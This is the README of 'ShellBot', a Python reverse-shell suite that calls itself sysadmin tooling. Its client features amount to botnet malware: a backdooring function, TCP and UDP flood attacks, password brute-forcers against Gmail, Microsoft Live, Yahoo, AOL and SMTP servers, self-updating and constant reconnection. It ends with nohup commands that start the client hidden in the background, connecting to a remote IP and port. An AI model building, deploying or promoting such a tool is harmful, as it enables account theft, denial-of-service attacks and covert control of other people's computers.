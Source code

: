 # ShellBot

##### The most advanced remote shell written in Python3 is here.

###### Based on `dotcppfile`'s [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/).

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:
##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time). TODO: Make it 5 minutes after inactivity.

##### Client:
1. Backdooring Function. (For more info: https://github.com/dotcppfile/Serbot/releases/tag/18%2F2%2F2015)
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround GMail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer.
(if found, the password will be saved in "password.txt" client-side)
1. OTA Updating.
1. Indestructible Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```